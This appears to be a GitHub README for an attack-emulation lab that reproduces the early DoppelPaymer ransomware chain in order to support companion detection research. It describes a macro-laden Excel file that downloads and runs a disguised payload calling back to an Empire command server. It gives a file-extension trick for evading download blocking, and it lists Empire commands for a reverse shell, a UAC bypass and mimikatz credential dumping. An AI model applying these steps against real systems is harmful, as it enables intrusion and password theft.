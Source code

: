 # Attack Emulation of the Fore Part of Doppelpaymer Attack Chain
## Second Part of this Project
* https://github.com/chieh0613/Log-based-Anomaly-Detection-and-Tracing-back-to-Phishing-Emails

## Introduction
   An APT attack consists of various tactics, including initial access, credential access, and command and control.
   DoppelPaymer is a ransomware that have launched their attacks since 2019, threatening victims after stealing their files.
   We try to reproduce the attack scenario based on the fore part of Doppelpaymer attack chain.

## Victim's OS and requiremnts
* Edition: Windows 10 Home
* Version: 2004
* Microsoft Office
* 7-zip/WinRAR
* Windows Defender disabled

## Attacker's OS and requirements
* Kali Linux
* Empire


## Unzip
   In the folder unzip, we try to generate an executable file "unzip.exe" to extract file from "launcher.zip" with the password "123".
* Type "python run.py" to generate the file "unzip.exe".
* Requirements:
  * python==3.8.8
  * pyinstaller==4.3 

## Unzip.txt
   Because we cannot download the executable file directly, we change the file extension from .exe to .txt.
   After the modication, we can use macro to download the file directly by a given link.

## launcher.zip
   Contains the file "launcher.bat" with the password "123". 
   After executing the file "launcher.bat", the victim will connect to the empire server.

## project.xlsm
   It is a macro enabled excel document.
   The followings are what it will do:
   * Download the file "launcher.zip" to %temp% folder
   * Download the file "unzip.exe" to %temp% folder
   * Execute the file "unzip.exe" to get the file "launcher.bat"
   * Execute the file "launcher.bat" to connect to the empire server

## project.zip
    Contains project.xlsm with password '123'. 

## Empire Commands
* Generate the file "launcher.bat" to let the victim connect to the empire server:
    1. Use "uselistener http" to generate listener
      * set Name http
      * set Host 192.168.2.30 (attacker's ip)
      * set Port 8080
      * execute
    2. Use "usestager windows/launcher_bat" to generate the file "launcher.bat"
      * set Listener http
      * execute

* After the victim connects to the empire server, run the following commands:
    1. type "agents" to find the value of victim's Name (<victim_Name>)
    2. type "interact <victim_Name>"
    3. Reverse shell
      * shell tasklist
      * shell netstat
      * shell ipconfig
    4. Use "usemodule privesec/bypassuac" to get administrator privilege
      * set Listener http
      * execute
    5. Use "usemodule credentials/mimikatz/logonpasswords*" to get the victim's NTLM hash
      * execute

# Reference
* https://github.com/mishmashclone/BC-SECURITY-Empire
* https://null-byte.wonderhowto.com/how-to/use-powershell-empire-getting-started-with-post-exploitation-windows-hosts-0178664/
* https://ethicalhackingguru.com/how-to-use-powershell-empire-3-the-powershell-empire-3-tutorial/
* https://d13ot9o61jdzpp.cloudfront.net/files/Excel%204.0%20Macro%20Functions%20Reference.pdf
* https://stackoverflow.com/questions/6934169/how-to-show-current-user-name-in-a-cell
* https://vblocalhost.com/uploads/VB2020-61.pdf
* https://github.com/DarkSecDevelopers/shellpy.git

